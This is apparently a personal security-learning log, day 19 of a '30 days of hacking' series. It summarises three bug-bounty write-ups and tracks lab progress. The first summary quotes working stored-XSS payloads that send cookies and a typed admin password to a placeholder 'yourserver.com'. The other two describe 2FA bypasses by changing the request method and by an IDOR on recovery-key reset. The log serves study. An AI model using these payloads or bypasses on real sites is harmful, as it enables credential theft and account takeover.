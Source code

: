 # Day-19 (30-Days-Of-Hacking)

### 1. Read 3 Article: [DONE]

- https://medium.com/@arthbajpai277/stored-xss-to-stealing-admin-credentials-to-your-domain-2ec10cb68bed
- https://medium.com/@arthbajpai277/2fa-bypass-by-changing-request-method-to-delete-500fd0ed12b8
- https://medium.com/@arthbajpai277/idor-leads-to-2fa-bypass-3331cec2db64

#### Learned:

1. From Article 1:
      - Website had some pretty Good Features and One of them was posting Stuff on Your Timeline or posting Articles. This kind of features has a higher chance of consisting bugs. So posting feature immediately Got my Attention and I started testing it.
      - So I entered the Self XSS Payload `“><img src=x onerror=alert(1)>` and tried approving the POST from admin account and I got POP Up in Admin Account, I tried testing `“><img src=x onerror=alert(document.cookie)>` to see if I can obtain cookies with this and I got a POP with some cookies as well.
	  - I spent My next 2 hours to Get this working and getting cookie on my domain, The Final Payload for this was `<script>new Image().src=”http://yourserver.com/abc.php?output="+document.cookie;</script>` 
     -  I spent another 2 hours to shorten the payload within the word limit and the final payload was :
`<input name=s id=email>
<input type=password name=a
onchange=”if(this.value.length)fetch(‘http://yourserver.com',
{
method:’POST’,
body:’:’+this.value
});”>`	
I entered the Payload in POST and when admin approved the Payload his Password was sent to victim server.
     
2. From Article 2:
    - So I thought About disabling it to check 2fa disable functionality, It had a button placed in front of 2fa to disable it and the best part was it didn’t require a password and was a single click 2fa disable.
    - I thought why not try changing request method on 2fa screen itself as there is just a slight change in request on resending sms and deleting 2fa and there is no password confirmation on disabling 2fa plus it validates requests based on cookie and it was generated at the time of login so it was very much possible.
    - so resend sms request kinda looked like : `POST /api/v2/mfa/resend`, and delete one kinda looks like : `DELETE /api/v2/mfa`
    - I entered Id Password and got to 2fa screen, where I needed to enter correct OTP to get into account.
    - I clicked on Resend SMS, took request on burp and changed the request method from POST to DELETE and removed resend from it and forwarded the request and boom 2fa disabled.

3. From Article 3:
    - I noticed they have a 2fa function , I tried 2fa bypass by response manipulations and with few other methods, weak 2fa implementation etc but didn’t find any success,I again noticed they have a function of removing 2fa using secret code if you don’t have access to your google authenticator, the secret code was bit long probably 8–9 digit long.
    - So website had login using multiple methods, So when you login using magic link or email password it asks you to enter 2fa code to get access to it, So I logged in using magic link and it asked me to enter 2fa code , there I noticed a option of “RESET 2FA” , I immediately clicked on it and it asked me to enter the Secret Key there, I entered the correct key there but it showed me error.
    - Now comes the Interesting part, it had 2 Parameters only, `“email”:”user_email”` , `“RecoveryKey”:”123456789"` , So the reason it was giving error because it was not able to self pick the email in email parameter through login details, as I was login using magic link .
    - I got excited again as I got a feeling that here that IDOR could work, I immediately entered the victim email and Recovery Key and “BOOM” the 2fa of victim was removed successfully.


### 2. TryHackMe Labs: [HALF DONE, THIS ROOM IS HARDDDDDDDDDDDD]

 - [X] Solved 2 More hashes Of **Crack The Hash Level 2** : (https://tryhackme.com/room/crackthehashlevel2)

### 3. PortSwigger Labs: [DONE]

 - [X] **Authentication (5/14)**
 -  Lab: Username enumeration via response timing   (https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

### 4. Youtube Video: [DONE]

- Learn with Remonsec: How to approach sensitive information disclosure. (https://www.youtube.com/watch?v=0EyVb0x-oJU)
